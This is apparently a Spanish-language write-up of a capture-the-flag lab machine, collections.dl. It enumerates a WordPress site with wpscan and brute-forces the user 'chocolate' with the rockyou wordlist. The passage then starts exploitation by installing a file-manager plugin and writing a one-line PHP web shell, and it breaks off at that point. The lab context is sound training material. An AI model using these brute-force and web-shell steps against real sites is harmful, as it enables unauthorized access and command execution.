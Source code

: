 - **Hallazgos**:
```bash
/wordpress            (Status: 301) [Size: 320] [--> http://collections.dl/wordpress/]
```

#### Enumeracion Wordpress con `wpscan`
```bash
wpscan --url http://collections.dl/wordpress/ --enumerate u,vp,vt,tt,cb,dbe --plugins-detection aggressive
```

Reporte:
```bash
http://collections.dl/wordpress/xmlrpc.php
http://collections.dl/wordpress/readme.html
http://collections.dl/wordpress/wp-content/uploads/
http://collections.dl/wordpress/wp-cron.php
```
### Credenciales Encontradas
- Usuario: `[ [+] chocolate ]`

Ahora realizamos un ataque de fuerza bruta sobre este usuario:
```bash
wpscan --url http://collections.dl/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames chocolate
```

```bash
[!] Valid Combinations Found:
 | Username: chocolate, Password: chocolate
```

Tenemos credenciales validas para logueranos:
```bash
http://collections.dl/wordpress/wp-login.php
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Una ves logueados tenemos esta ruta donde podemos usbir archivos maliciosos:
```bash
http://collections.dl/wordpress/wp-content/uploads/
```

Descargargaremos un pluggin de wordpress: **( File Manager )** para que nos permita cargar un archivo malcioso:
Una ves descargado creamos un archivo malicioso php que nos permita ejecutar un comando a nivel de sistema **( cmd.php )**:
```php
<?php
  system($_GET["cmd"]);
?>
```
